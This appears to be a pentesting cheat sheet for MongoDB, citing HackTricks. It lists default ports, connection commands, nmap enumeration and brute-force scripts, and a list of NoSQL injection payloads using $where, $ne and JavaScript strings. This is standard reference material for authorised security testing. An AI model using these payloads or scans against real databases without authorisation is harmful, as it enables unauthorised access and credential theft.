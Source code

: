 # Basic Information
MongoDB is an open source database management system that uses a document-oriented database model to handle diverse forms of data. 
It offers flexibility and scalability for managing unstructured or semi-structured data in applications like big data analytics and content management.

## Ports
```
27017 Default #1
27018 Default #2
```

## Connection

```bash
mongo -u <username> -p <password> <auth_source>
mongo "mongodb://USERNAME:PASSWORD@IP:PORT/SOURCE?mechanism=DEFAULT&authSource=SOURCE"
mongo "mongodb://HOST:PORT"
mongo <HOST> 
mongo <HOST>:<PORT> 
mongo <HOST>:<PORT>/<DB> 
mongo <database> -u <username> -p '<password>'
```

## Commands

```
show dbs
use <db>
show collections
db.<collection>.find()
db.<collection>.count()
db.current.find({"username":"admin"})
```

# Enumeration
## Remote
```bash
nmap -sV --script "mongo* and default" -p 27017 <IP>

# Check if credentials are needed
nmap -n -sV --script mongodb-brute -p 27017 <IP>
```

# Payloads for SQLi

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
```


# References
- [https://book.hacktricks.wiki/en/network-services-pentesting/27017-27018-mongodb.html](https://book.hacktricks.wiki/en/network-services-pentesting/27017-27018-mongodb.html)